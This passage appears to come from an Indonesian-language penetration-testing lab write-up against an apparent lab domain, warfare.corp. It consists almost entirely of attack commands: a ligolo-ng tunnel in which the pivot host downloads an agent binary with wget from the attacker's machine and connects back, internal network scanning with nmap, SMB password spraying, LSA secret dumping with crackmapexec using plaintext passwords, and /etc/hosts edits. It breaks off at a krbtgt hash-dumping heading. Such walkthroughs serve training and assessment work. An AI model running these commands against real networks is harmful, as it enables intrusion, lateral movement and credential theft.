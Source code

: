 **Attacker:**

```bash
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
ligolo-proxy -selfcert
```

**Pivot Machine:**

```bash
wget http://10.10.200.23:8000/agent
chmod +x agent
./agent -connect 10.10.200.23:11601 -ignore-cert
```

**Attacker:**

```bash
start
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
sudo ip route add 192.168.98.0/24 dev ligolo
```

### 8. Enumerasi Internal Network

```bash
nmap -sn 192.168.98.0/24
ping 192.168.98.2
cat target.txt
192.168.98.2
192.168.98.15
192.168.98.30
192.168.98.120
```

### 9. Spray SMB Credential & Dump LSA

```bash
crackmapexec smb target.txt -u john -p 'User1@#$%6'
crackmapexec smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa
```

Ulangi jika ditemukan credential baru:

```bash
crackmapexec smb target.txt -u corpmngr -p 'User4&*&*'
```

### 10. Tambah /etc/hosts

```bash
192.168.98.2 warfare.corp dc01.warfare.corp
192.168.98.120 child.warfare.corp cdc.child.warfare.corp
```

### 11. Dump Hash krbtgt
